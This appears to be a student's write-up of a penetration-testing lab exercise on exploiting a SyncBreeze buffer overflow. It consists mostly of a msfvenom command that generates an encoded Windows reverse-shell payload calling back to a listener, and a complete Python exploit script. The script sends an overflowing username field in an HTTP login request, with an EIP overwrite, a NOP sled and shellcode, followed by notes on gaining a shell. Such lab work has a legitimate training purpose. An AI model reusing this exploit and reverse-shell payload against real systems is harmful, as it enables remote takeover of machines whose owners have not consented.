



### 11.2.10.1 Exercise
#### 1. Update the exploit so that SyncBreeze still runs after exploitation.

1. Generated new shellcode with exit function=thread.

   ```bash
   msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
   ```

2. Updated code

   ```python
   #!/usr/bin/python                                                                                                 
   import socket       
   
   try:                 
       print "\nSending evil buffer....."
                                                                                                                     
       filler = "A" * 780
       eip  = "\x83\x0c\x09\x10"        
       offset = "C" * 4
       nops = "\x90" * 10
       shellcode = ("\xda\xc4\xbe\xe5\x02\x9a\x99\xd9\x74\x24\xf4\x5b\x29\xc9\xb1"
               "\x52\x31\x73\x17\x03\x73\x17\x83\x0e\xfe\x78\x6c\x2c\x17\xfe"
               "\x8f\xcc\xe8\x9f\x06\x29\xd9\x9f\x7d\x3a\x4a\x10\xf5\x6e\x67"
               "\xdb\x5b\x9a\xfc\xa9\x73\xad\xb5\x04\xa2\x80\x46\x34\x96\x83"
               "\xc4\x47\xcb\x63\xf4\x87\x1e\x62\x31\xf5\xd3\x36\xea\x71\x41"
               "\xa6\x9f\xcc\x5a\x4d\xd3\xc1\xda\xb2\xa4\xe0\xcb\x65\xbe\xba"
               "\xcb\x84\x13\xb7\x45\x9e\x70\xf2\x1c\x15\x42\x88\x9e\xff\x9a"
               "\x71\x0c\x3e\x13\x80\x4c\x07\x94\x7b\x3b\x71\xe6\x06\x3c\x46"
               "\x94\xdc\xc9\x5c\x3e\x96\x6a\xb8\xbe\x7b\xec\x4b\xcc\x30\x7a"
               "\x13\xd1\xc7\xaf\x28\xed\x4c\x4e\xfe\x67\x16\x75\xda\x2c\xcc"
               "\x14\x7b\x89\xa3\x29\x9b\x72\x1b\x8c\xd0\x9f\x48\xbd\xbb\xf7"
               "\xbd\x8c\x43\x08\xaa\x87\x30\x3a\x75\x3c\xde\x76\xfe\x9a\x19"
               "\x78\xd5\x5b\xb5\x87\xd6\x9b\x9c\x43\x82\xcb\xb6\x62\xab\x87"
               "\x46\x8a\x7e\x07\x16\x24\xd1\xe8\xc6\x84\x81\x80\x0c\x0b\xfd"
               "\xb1\x2f\xc1\x96\x58\xca\x82\x58\x34\xa3\x8a\x31\x47\x4b\x34"
               "\x82\xce\xad\x20\x12\x87\x66\xdd\x8b\x82\xfc\x7c\x53\x19\x79"
               "\xbe\xdf\xae\x7e\x71\x28\xda\x6c\xe6\xd8\x91\xce\xa1\xe7\x0f"
               "\x66\x2d\x75\xd4\x76\x38\x66\x43\x21\x6d\x58\x9a\xa7\x83\xc3"
               "\x34\xd5\x59\x95\x7f\x5d\x86\x66\x81\x5c\x4b\xd2\xa5\x4e\x95"
               "\xdb\xe1\x3a\x49\x8a\xbf\x94\x2f\x64\x0e\x4e\xe6\xdb\xd8\x06"
               "\x7f\x10\xdb\x50\x80\x7d\xad\xbc\x31\x28\xe8\xc3\xfe\xbc\xfc"
               "\xbc\xe2\x5c\x02\x17\xa7\x7d\xe1\xbd\xd2\x15\xbc\x54\x5f\x78"
               "\x3f\x83\x9c\x85\xbc\x21\x5d\x72\xdc\x40\x58\x3e\x5a\xb9\x10"
               "\x2f\x0f\xbd\x87\x50\x1a")
   
   
       inputBuffer = filler + eip + offset + nops + shellcode
   
       content = "username=" + inputBuffer + "&password=A"
   
           buffer = "POST /login HTTP/1.1\r\n"
       buffer += "Host: 192.168.216.10\r\n"
       buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
       buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
       buffer += "Accept-Language: en-US,en;q=0.5\r\n"
       buffer += "Referer: http://192.168.216.10/login\r\n"
       buffer += "Connection: close\r\n"
       buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
       buffer += "Content-Length: "+str(len(content))+"\r\n" 
       buffer += "\r\n"
   
       buffer += content
   
       s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
            
       s.connect(("192.168.216.10", 80))
       s.send(buffer)
            
       s.close()
       print "\Done!"
   except:
       print "\nCould not connect!"
   ```

3. Re-ran code against server, gained shell & exited shell (I had to hit CTRL+C to terminate the netcat session after exiting).
   

4. Checked status of service & made sure I could connect again without restarting the service:
   
   


